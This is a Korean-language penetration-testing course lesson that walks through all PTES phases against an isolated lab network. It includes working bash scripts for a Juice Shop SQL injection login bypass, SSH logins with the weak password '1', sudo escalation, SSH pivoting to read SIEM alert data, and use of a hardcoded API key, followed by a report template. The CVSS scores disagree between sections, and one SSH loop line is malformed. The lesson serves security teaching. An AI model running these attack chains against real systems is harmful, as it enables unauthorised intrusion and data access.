


# Week 14: 종합 모의해킹 — PTES 전 과정 실전 수행

## 학습 목표
- **PTES(Penetration Testing Execution Standard)**의 7단계 전 과정을 실전으로 수행할 수 있다
- Week 01~13에서 학습한 모든 기법을 **종합적으로 조합**하여 목표를 달성할 수 있다
- 실습 환경(10.20.30.0/24)에 대한 **완전한 모의해킹**을 수행할 수 있다
- 발견된 취약점을 **CVSS 점수로 평가**하고 위험도를 분류할 수 있다
- 모의해킹 결과를 **전문적인 보고서** 형태로 문서화할 수 있다
- 각 공격 단계에서의 **OPSEC(작전 보안)**을 유지할 수 있다
- 방어 권고사항을 **우선순위에 따라** 제시할 수 있다

## 전제 조건
- Week 01~13의 모든 기법을 이해하고 실습한 경험이 있어야 한다
- MITRE ATT&CK 프레임워크를 사용하여 공격을 매핑할 수 있어야 한다
- 네트워크, 웹, 시스템 공격 도구를 사용할 수 있어야 한다
- 보고서 작성의 기본 구조를 알고 있어야 한다

## 실습 환경

| 호스트 | IP | 역할 | 접속 |
|--------|-----|------|------|
| bastion | 10.20.30.201 | 공격 기지 + C2 | `ssh ccc@10.20.30.201` |
| secu | 10.20.30.1 | 방화벽/IPS (고가치 목표) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹 서버 (초기 접근점) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (최종 목표) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:20 | PTES 방법론 + 규칙 설명 | 강의 |
| 0:20-0:50 | Phase 1-2: 정찰 + 위협 모델링 | 실습 |
| 0:50-1:10 | Phase 3: 취약점 분석 | 실습 |
| 1:10-1:20 | 휴식 | - |
| 1:20-1:50 | Phase 4: 익스플로잇 | 실습 |
| 1:50-2:30 | Phase 5: 후속 익스플로잇 (측면 이동, 권한 상승) | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | Phase 6-7: 보고서 + 정리 | 실습 |
| 3:10-3:30 | 결과 발표 + 토론 | 토론 |

---

# Part 1: PTES 방법론과 준비 (20분)

## 1.1 PTES 7단계



## 1.2 이번 실습 규칙

```
범위: 10.20.30.0/24 (secu, web, siem, bastion)
목표: 1) 전체 네트워크 맵 완성
      2) 최소 3개 취약점 발견 + 익스플로잇
      3) 측면 이동으로 3개 이상 서버 접근
      4) SIEM 데이터 접근 (최종 목표)
금지: DoS 공격, 데이터 파괴, 시스템 변경 (읽기/실행만)
시간: 2시간 30분
```

---

# Part 2: Phase 1-2 — 정찰과 위협 모델링 (30분)

## 실습 2.1: 체계적 정찰

> **실습 목적**: PTES Phase 1-2에 따라 대상 네트워크의 전체 맵을 작성한다
>
> **배우는 것**: 체계적 정찰 방법론, 결과 구조화, 위협 모델링 기법을 배운다
>
> **결과 해석**: 전체 호스트, 서비스, 기술 스택이 파악되면 정찰 완료이다
>
> **실전 활용**: 모의해킹의 첫 단계이며 이후 모든 단계의 기반이 된다
>
> **명령어 해설**: nmap 종합 스캔과 서비스 핑거프린팅을 수행한다
>
> **트러블슈팅**: 방화벽에 의해 필터링되면 우회 기법(Week 03)을 적용한다

```bash
echo "============================================================"
echo "  PTES Phase 1-2: 정찰 + 위협 모델링                         "
echo "============================================================"

echo ""
echo "[1] 호스트 발견 (네트워크 스캔)"
nmap -sn 10.20.30.0/24 2>/dev/null | grep "report\|Host is"

echo ""
echo "[2] 서비스 열거 (포트/버전)"
for host in 10.20.30.1 10.20.30.80 10.20.30.100 10.20.30.201; do
  echo "--- $host ---"
  nmap -sV --open -p 22,80,443,3000,5432,8000,8001,8002,9200 "$host" 2>/dev/null | grep "open"
done

echo ""
echo "[3] 웹 서비스 핑거프린팅"
for target in "10.20.30.80:80" "10.20.30.80:3000" "10.20.30.201:8000"; do
  echo "--- $target ---"
  curl -sI "http://$target/" 2>/dev/null | grep -iE "server:|x-powered|content-type" | head -3
done

echo ""
echo "[4] 위협 모델링 — 자산 분류"
cat << 'ASSETS'
+----------------------------------------------------------+
| 자산     | IP             | 서비스            | 가치     |
+----------------------------------------------------------+
| secu     | 10.20.30.1     | 방화벽, IPS      | 매우 높음 |
| web      | 10.20.30.80    | 웹서버, JuiceShop| 중간      |
| siem     | 10.20.30.100   | Wazuh SIEM      | 높음       |
| bastion  | 10.20.30.201   | 컨트롤플레인     | 매우 높음 |
+----------------------------------------------------------+

공격 벡터 우선순위:
  1순위: web:3000 (Juice Shop) → 알려진 취약 앱
  2순위: web:8002 (SubAgent API) → 명령 실행 가능
  3순위: SSH 크레덴셜 → 측면 이동
ASSETS
```

---

# Part 3: Phase 3-4 — 취약점 분석과 익스플로잇 (40분)

## 실습 3.1: 취약점 발견과 익스플로잇

> **실습 목적**: 정찰 결과를 기반으로 취약점을 발견하고 실제로 익스플로잇한다
>
> **배우는 것**: 취약점 발견 → 검증 → 익스플로잇의 전체 과정을 실전으로 수행한다
>
> **결과 해석**: 초기 접근(셸/토큰)을 획득하면 익스플로잇 성공이다
>
> **실전 활용**: PTES의 핵심 단계로 실제 모의해킹과 동일한 과정이다
>
> **명령어 해설**: 각 취약점에 맞는 공격 도구와 페이로드를 선택하여 실행한다
>
> **트러블슈팅**: 하나의 벡터가 실패하면 다른 벡터로 전환한다

```bash
echo "============================================================"
echo "  PTES Phase 3-4: 취약점 분석 + 익스플로잇                    "
echo "============================================================"

echo ""
echo "[취약점 1] Juice Shop SQL Injection"
echo "--- 테스트 ---"
SQLI_RESULT=$(curl -s -X POST http://10.20.30.80:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d "{\"email\":\"' OR 1=1--\",\"password\":\"a\"}" 2>/dev/null)

if echo "$SQLI_RESULT" | grep -q "token"; then
  echo "  [+] SQL Injection 성공! 관리자 토큰 획득"
  TOKEN=$(echo "$SQLI_RESULT" | python3 -c "import sys,json;print(json.load(sys.stdin).get('authentication',{}).get('token',''))" 2>/dev/null)
  echo "  JWT: ${TOKEN:0:50}..."
else
  echo "  [-] SQL Injection 실패"
fi

echo ""
echo "[취약점 2] 민감 경로 노출"
for path in "/ftp" "/api/Users" "/api/Challenges" "/rest/products/search?q="; do
  CODE=$(curl -s -o /dev/null -w "%{http_code}" "http://10.20.30.80:3000$path" 2>/dev/null)
  if [ "$CODE" = "200" ]; then
    echo "  [+] $path → HTTP $CODE (접근 가능)"
  fi
done

echo ""
echo "[취약점 3] SubAgent API 접근"
SUBAGENT=$(curl -s http://10.20.30.80:8002/ 2>/dev/null)
if [ -n "$SUBAGENT" ]; then
  echo "  [+] SubAgent API 접근 가능"
  echo "  응답: ${SUBAGENT:0:100}"
fi

echo ""
echo "[취약점 4] SSH 약한 비밀번호"
for user in web secu siem; do
  sshpass -p1 ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 "$ccc@10.20.30.${user:0:1}" "echo success" 2>/dev/null
  if [ $? -eq 0 ]; then
    echo "  [+] $user → 비밀번호 '1'로 SSH 접근 성공"
  fi
done
ssh "ccc@10.20.30.80" "echo success" 2>/dev/null && echo "  [+] ccc@10.20.30.80 → SSH 접근 성공"
ssh "ccc@10.20.30.1" "echo success" 2>/dev/null && echo "  [+] ccc@10.20.30.1 → SSH 접근 성공"
ssh "ccc@10.20.30.100" "echo success" 2>/dev/null && echo "  [+] ccc@10.20.30.100 → SSH 접근 성공"

echo ""
echo "[취약점 5] Manager API 인증"
API_RESULT=$(curl -s -H "X-API-Key: ccc-api-key-2026" http://10.20.30.201:8000/projects 2>/dev/null)
if echo "$API_RESULT" | grep -q "projects\|data\|\["; then
  echo "  [+] Manager API 접근 성공 (알려진 API 키)"
fi
```

---

# Part 4: Phase 5 — 후속 익스플로잇 (40분)

## 실습 4.1: 권한 상승 + 측면 이동 + 최종 목표

> **실습 목적**: 초기 접근에서 최종 목표(SIEM 데이터)까지 전체 공격 체인을 완성한다
>
> **배우는 것**: 권한 상승, 크레덴셜 수집, 피봇팅, 데이터 접근의 종합 기법을 배운다
>
> **결과 해석**: SIEM의 보안 알림 데이터에 접근하면 최종 목표 달성이다
>
> **실전 활용**: 모의해킹의 핵심 단계로 실제 공격과 동일한 체인을 구성한다
>
> **명령어 해설**: SSH 피봇, sudo 권한 상승, 데이터 수집을 조합한다
>
> **트러블슈팅**: 특정 단계가 실패하면 대안 경로를 탐색한다

```bash
echo "============================================================"
echo "  PTES Phase 5: 후속 익스플로잇                               "
echo "============================================================"

echo ""
echo "[Step 1] web 서버 — 권한 상승"
ssh ccc@10.20.30.80 "
  echo '--- 현재 사용자 ---'
  id
  echo '--- sudo 권한 ---'
  echo 1 | sudo -S id 2>/dev/null && echo '[+] sudo 가능!'
  echo '--- SUID 바이너리 (비표준) ---'
  find /usr/local -perm -4000 -type f 2>/dev/null
" 2>/dev/null

echo ""
echo "[Step 2] web → secu 측면 이동"
ssh ccc@10.20.30.80 "
  ssh ccc@10.20.30.1 '
    echo \"[+] secu 접근 성공: \$(hostname)\"
    echo \"--- 방화벽 규칙 요약 ---\"
    echo 1 | sudo -S nft list ruleset 2>/dev/null | head -10
  ' 2>/dev/null
" 2>/dev/null

echo ""
echo "[Step 3] web → siem 측면 이동 (최종 목표)"
ssh ccc@10.20.30.80 "
  ssh ccc@10.20.30.100 '
    echo \"[+] SIEM 접근 성공: \$(hostname)\"
    echo \"--- Wazuh 알림 데이터 (최근 5건) ---\"
    tail -5 /var/ossec/logs/alerts/alerts.json 2>/dev/null | python3 -c \"
import sys,json
for l in sys.stdin:
    try:
        d=json.loads(l)
        r=d.get(\\\"rule\\\",{})
        print(f\\\"  [Level {r.get(\\\\\\\"level\\\\\\\",\\\\\\\"?\\\\\\\"):.>3}] {r.get(\\\\\\\"description\\\\\\\",\\\\\\\"?\\\\\\\")[:50]}\\\")
    except: pass\" 2>/dev/null
    echo \"--- Wazuh 에이전트 목록 ---\"
    ls /var/ossec/queue/agents/ 2>/dev/null | head -5 || echo \"에이전트 디렉토리 접근 불가\"
  ' 2>/dev/null
" 2>/dev/null

echo ""
echo "[Step 4] 데이터 수집 요약"
echo "  [+] Juice Shop: 관리자 JWT, 사용자 목록, 제품 데이터"
echo "  [+] web 서버: SSH 접근, sudo root"
echo "  [+] secu 서버: 방화벽 규칙 접근"
echo "  [+] siem 서버: Wazuh 알림 데이터 접근"
echo "  [+] Bastion API: 프로젝트 데이터 접근"
echo "============================================================"
```

---

# Part 5: Phase 6-7 — 보고서와 정리 (30분)

## 실습 5.1: 모의해킹 보고서 템플릿

> **실습 목적**: PTES Phase 7에 따라 발견사항을 전문적인 보고서로 문서화한다
>
> **배우는 것**: 취약점 분류(CVSS), 보고서 구조, 권고사항 작성법을 배운다
>
> **결과 해석**: 구조화된 보고서가 완성되면 모의해킹 전 과정이 완료된 것이다
>
> **실전 활용**: 실제 모의해킹 보고서 작성에 직접 활용한다
>
> **명령어 해설**: 보고서 템플릿을 기반으로 발견사항을 정리한다
>
> **트러블슈팅**: 보고서 품질은 기술적 정확성과 비기술 경영진의 이해 가능성 모두 중요하다

```bash
cat << 'REPORT'
============================================================
       모의해킹 보고서 — 10.20.30.0/24                        
============================================================

1. 요약 (Executive Summary)
   대상: 10.20.30.0/24 (4개 서버)
   기간: 2026-04-04
   결과: Critical 2건, High 3건, Medium 2건

2. 범위와 방법론
   방법론: PTES (Penetration Testing Execution Standard)
   범위: secu(10.20.30.1), web(10.20.30.80),
         siem(10.20.30.100), bastion(10.20.30.201)
   제한: DoS 공격 금지, 데이터 변조 금지

3. 발견사항

   [VULN-001] SQL Injection — Juice Shop 로그인
   위험도: Critical (CVSS 9.8)
   위치: http://10.20.30.80:3000/rest/user/login
   영향: 인증 우회, 전체 사용자 데이터 접근
   재현: POST {"email":"' OR 1=1--","password":"a"}
   권고: 파라미터화된 쿼리 사용, WAF 규칙 강화

   [VULN-002] 약한 SSH 비밀번호
   위험도: Critical (CVSS 9.1)
   위치: 전체 서버 (secu, web, siem)
   영향: 전체 네트워크 접근, 측면 이동
   재현: sshpass -p1 ssh ccc@target
   권고: SSH 키 인증 전환, 비밀번호 복잡도 정책

   [VULN-003] 민감 API 무인증 접근
   위험도: High (CVSS 7.5)
   위치: http://10.20.30.80:3000/api/Users
   영향: 사용자 목록, 이메일 주소 유출
   권고: API 인증 강제, 접근 제어

   [VULN-004] SubAgent API 노출
   위험도: High (CVSS 7.8)
   위치: http://10.20.30.80:8002
   영향: 원격 명령 실행 가능
   권고: 인증 추가, 네트워크 접근 제한

   [VULN-005] API 키 하드코딩
   위험도: High (CVSS 7.0)
   위치: Bastion Manager API
   영향: 전체 API 접근, 프로젝트 데이터
   권고: 동적 토큰 발급, 키 로테이션

4. 공격 경로 (Kill Chain)
   정찰 → SQLi(web) → JWT 획득 → SSH(web)
   → sudo root → SSH 피봇 → secu/siem 접근

5. 권고사항 (우선순위)
   즉시: SSH 비밀번호 변경/키 전환
   1주내: Juice Shop 업데이트/제거
   1개월: SubAgent 인증 강화
   3개월: 네트워크 세그멘테이션 구현

============================================================
REPORT
```

## 실습 5.2: CVSS 점수 계산 실습

> **실습 목적**: 발견된 각 취약점에 대해 CVSS v3.1 점수를 정확하게 계산한다
>
> **배우는 것**: CVSS 기본 메트릭 각 요소의 평가 기준과 점수 산출 방법을 배운다
>
> **결과 해석**: 각 취약점의 CVSS 점수와 등급이 객관적으로 산출되면 성공이다
>
> **실전 활용**: 모의해킹 보고서에서 취약점 우선순위를 결정하는 핵심 기준이다
>
> **명령어 해설**: Python으로 CVSS 계산 로직을 구현한다
>
> **트러블슈팅**: CVSS 점수가 주관적이라면 FIRST.org 가이드라인을 참조한다

```bash
python3 << 'PYEOF'
print("=== CVSS v3.1 점수 계산 ===")
print()

vulns = [
    {
        "id": "VULN-001",
        "name": "SQL Injection (Juice Shop)",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "High", "I": "High", "A": "None",
        "score": 9.1, "rating": "Critical",
    },
    {
        "id": "VULN-002",
        "name": "약한 SSH 비밀번호 (전체 서버)",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Changed", "C": "High", "I": "High", "A": "High",
        "score": 10.0, "rating": "Critical",
    },
    {
        "id": "VULN-003",
        "name": "민감 API 무인증 (Juice Shop)",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "High", "I": "None", "A": "None",
        "score": 7.5, "rating": "High",
    },
    {
        "id": "VULN-004",
        "name": "SubAgent API 무인증",
        "AV": "Adjacent", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "High", "I": "High", "A": "Low",
        "score": 8.3, "rating": "High",
    },
    {
        "id": "VULN-005",
        "name": "API 키 하드코딩/예측 가능",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "High", "I": "Low", "A": "None",
        "score": 8.2, "rating": "High",
    },
    {
        "id": "VULN-006",
        "name": "Juice Shop FTP 디렉토리 노출",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "Low", "I": "None", "A": "None",
        "score": 5.3, "rating": "Medium",
    },
    {
        "id": "VULN-007",
        "name": "HTTP 서버 버전 정보 노출",
        "AV": "Network", "AC": "Low", "PR": "None", "UI": "None",
        "S": "Unchanged", "C": "Low", "I": "None", "A": "None",
        "score": 5.3, "rating": "Medium",
    },
]

print("+----------+------------------------------------------+-------+-----------+")
print("| ID       | 취약점                                    | CVSS  | 등급      |")
print("+----------+------------------------------------------+-------+-----------+")
for v in vulns:
    print(f"| {v['id']:<8} | {v['name']:<40} | {v['score']:>5.1f} | {v['rating']:<9} |")
print("+----------+------------------------------------------+-------+-----------+")

print()
print("=== CVSS 메트릭 상세 ===")
for v in vulns:
    vector = f"AV:{v['AV'][0]}/AC:{v['AC'][0]}/PR:{v['PR'][0]}/UI:{v['UI'][0]}/S:{v['S'][0]}/C:{v['C'][0]}/I:{v['I'][0]}/A:{v['A'][0]}"
    print(f"  {v['id']}: CVSS:3.1/{vector} = {v['score']}")
PYEOF
```

## 실습 5.3: 공격 내러티브 작성

> **실습 목적**: 시간순으로 공격 과정을 서술하는 공격 내러티브를 작성한다
>
> **배우는 것**: 기술적으로 정확하면서 읽기 쉬운 공격 스토리 작성법을 배운다
>
> **결과 해석**: 비기술자도 공격 흐름을 이해할 수 있으면 작성 성공이다
>
> **실전 활용**: 모의해킹 보고서의 가장 중요한 섹션 중 하나이다
>
> **명령어 해설**: 해당 없음 (문서 작성)
>
> **트러블슈팅**: 기술 용어에는 간단한 설명을 괄호로 추가한다

```bash
cat << 'NARRATIVE'
============================================================
              공격 내러티브 (Attack Narrative)
============================================================

[09:00] 정찰 개시
  공격자는 nmap을 사용하여 10.20.30.0/24 네트워크를 스캔했다.
  4개의 활성 호스트가 발견되었으며, 각 호스트에서 실행 중인
  서비스(SSH, HTTP, API)를 식별했다.

[09:15] 초기 접근 — SQL Injection
  web 서버(10.20.30.80)에서 Juice Shop 웹 애플리케이션을 발견했다.
  로그인 API(/rest/user/login)에 SQL Injection 취약점이 존재하여,
  조작된 이메일 주소(' OR 1=1--)로 관리자 인증을 우회했다.
  관리자 JWT 토큰을 획득하여 전체 사용자 목록에 접근했다.

[09:30] 대안 접근 — SSH 약한 비밀번호
  SSH 서비스에 대해 일반적인 비밀번호를 시도한 결과,
  모든 서버(web, secu, siem)에서 비밀번호 '1'로 접속에 성공했다.
  이는 심각한 비밀번호 정책 부재를 나타낸다.

[09:45] 권한 상승
  web 서버에서 sudo 명령을 동일한 비밀번호('1')로 실행하여
  root 권한을 획득했다. 이로써 시스템의 완전한 제어가 가능해졌다.

[10:00] 측면 이동 — 전체 네트워크 장악
  web 서버를 피봇(중간 경유지)으로 사용하여:
  - secu(10.20.30.1): 방화벽 서버에 접근, nftables 규칙 확인
  - siem(10.20.30.100): SIEM 서버에 접근, 보안 알림 데이터 확인
  모든 서버에서 root 권한을 획득하여 전체 네트워크가 장악되었다.

[10:15] 데이터 접근 — 최종 목표 달성
  SIEM 서버에서 Wazuh 보안 알림 데이터에 접근하여,
  전체 인프라의 보안 이벤트 기록을 확인할 수 있었다.
  또한 Bastion Manager API에 알려진 API 키로 접근하여
  프로젝트 및 운영 데이터에 접근할 수 있었다.

[10:30] 발견사항 정리
  Critical 2건, High 3건, Medium 2건의 취약점이 발견되었다.
  가장 심각한 문제는 전체 서버의 약한 SSH 비밀번호로,
  이 단일 취약점만으로 전체 인프라 장악이 가능했다.

============================================================
  총 소요 시간: 1시간 30분
  접근한 서버: 4/4 (100%)
  획득한 최고 권한: root (모든 서버)
============================================================
NARRATIVE
```

## 실습 5.4: 권고사항 우선순위 매트릭스

> **실습 목적**: 발견된 취약점에 대한 구체적이고 실행 가능한 권고사항을 우선순위별로 작성한다
>
> **배우는 것**: 위험도, 구현 난이도, 비용을 고려한 권고사항 우선순위 결정법을 배운다
>
> **결과 해석**: 각 권고사항이 구체적이고 실행 가능하며 우선순위가 명확하면 성공이다
>
> **실전 활용**: 고객에게 실질적인 개선 로드맵을 제공하는 데 활용한다
>
> **명령어 해설**: 해당 없음 (문서 작성)
>
> **트러블슈팅**: 권고사항은 구체적 구현 방법과 기대 효과를 포함해야 한다

```bash
cat << 'RECOMMENDATIONS'
=== 권고사항 우선순위 매트릭스 ===

[즉시 조치 (24시간 이내)]
  R1. SSH 비밀번호 변경 (VULN-002)
      방법: 모든 서버에서 SSH 키 인증 전환
      명령: ssh-keygen -t ed25519 + authorized_keys 설정
      예상 효과: 측면 이동 완전 차단
      난이도: 낮음

  R2. Juice Shop 접근 제한 (VULN-001, 003)
      방법: 교육용 앱을 격리 네트워크로 이동 또는 삭제
      명령: docker stop juiceshop 또는 nftables 규칙 추가
      예상 효과: SQL Injection, API 노출 차단
      난이도: 낮음

[1주 이내]
  R3. SubAgent API 인증 추가 (VULN-004)
      방법: X-API-Key 인증 미들웨어 추가
      예상 효과: 무인증 원격 명령 실행 차단
      난이도: 중간

  R4. API 키 로테이션 (VULN-005)
      방법: 동적 토큰 발급 시스템 구현
      예상 효과: API 키 예측/재사용 차단
      난이도: 중간

[1개월 이내]
  R5. 네트워크 세그멘테이션
      방법: VLAN/서브넷 분리, 서버 간 접근 제한
      예상 효과: 측면 이동 경로 제한
      난이도: 높음

  R6. Suricata IDS 규칙 강화
      방법: SQL Injection, C2 탐지 규칙 추가
      예상 효과: 공격 실시간 탐지
      난이도: 중간

[3개월 이내]
  R7. 종합 보안 아키텍처 리뷰
      방법: 제로 트러스트 모델 도입 검토
      예상 효과: 전반적 보안 수준 향상
      난이도: 높음

RECOMMENDATIONS
```

---

## 검증 체크리스트

| 번호 | 검증 항목 | 확인 명령 | 기대 결과 |
|------|---------|----------|----------|
| 1 | 호스트 발견 | nmap -sn | 4개 호스트 |
| 2 | 서비스 열거 | nmap -sV | 서비스 목록 |
| 3 | SQL Injection | curl POST | 토큰 획득 |
| 4 | SSH 접근 | sshpass | 3개 서버 접근 |
| 5 | 권한 상승 | sudo | root 권한 |
| 6 | 측면 이동 | SSH 피봇 | 3개 서버 경유 |
| 7 | SIEM 접근 | 알림 데이터 | 최종 목표 달성 |
| 8 | API 접근 | curl + API key | 프로젝트 데이터 |
| 9 | 보고서 작성 | 템플릿 | 5개 취약점 문서화 |
| 10 | CVSS 평가 | 점수 부여 | 각 취약점 점수 |

---

## 과제

### 과제 1: 완전한 모의해킹 보고서 (팀)
이번 실습의 결과를 전문적인 모의해킹 보고서로 작성하라. Executive Summary, 방법론, 발견사항(CVSS 포함), 공격 경로, 스크린샷, 권고사항, 부록(도구 목록, 명령어)을 포함할 것.

### 과제 2: 방어 개선 계획 (팀)
발견된 취약점에 대한 30일/90일/180일 방어 개선 로드맵을 작성하라. 각 개선 사항의 비용, 효과, 우선순위를 포함할 것.

### 과제 3: Purple Team 연습 설계 (팀)
이번 실습을 기반으로 Red Team과 Blue Team이 동시에 참여하는 Purple Team 연습 시나리오를 설계하라. 공격 단계별 탐지 기대치와 대응 절차를 포함할 것.

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### 보고서 도구 (CVSS 계산기·Markdown·ReportLab)
> **역할:** 취약점 보고서 표준화  
> **실행 위치:** `작업 PC`  
> **접속/호출:** FIRST CVSS 계산기 https://www.first.org/cvss/calculator/3.1

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `reports/<project>/` | 재현 스크린샷·증적 저장 |
| `template.md / template.docx` | 표준 템플릿 |

**핵심 설정·키**

- `CVSS 3.1 벡터 예: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` — Critical 9.8
- `CWE ID + 권고 (remediation)` — 보고서 필수 항목

**UI / CLI 요점**

- MermaidJS 공격 흐름도 — 교안/보고서 공통 도식
- Pandoc `md → docx/pdf` — 포맷 변환

> **해석 팁.** 보고서 가치는 **재현 절차의 완결성**에 달려 있다. 스크린샷·요청/응답 전체·시간 기록을 포함해야 고객이 독립 검증 가능.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://10.20.30.200:8003` (Bastion /ask·/chat)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

---

## 실제 사례 (WitFoo Precinct 6 — Supply Chain 공격)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Supply Chain 공격* 학습 항목 매칭.

### Supply Chain 공격 의 dataset 흔적 — "package manager log"

dataset 의 정상 운영에서 *package manager log* 신호의 baseline 을 알아두면, *Supply Chain 공격* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — npm/pip 공급망.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | package manager log |
| 정량 baseline | npm/pip 공급망 |
| 학습 매핑 | 악성 package 탐지 |

**자세한 해석**: 악성 package 탐지. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | package manager log 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Supply Chain 공격 = package manager log 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — npm/pip 공급망.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: Trojan package 분석.

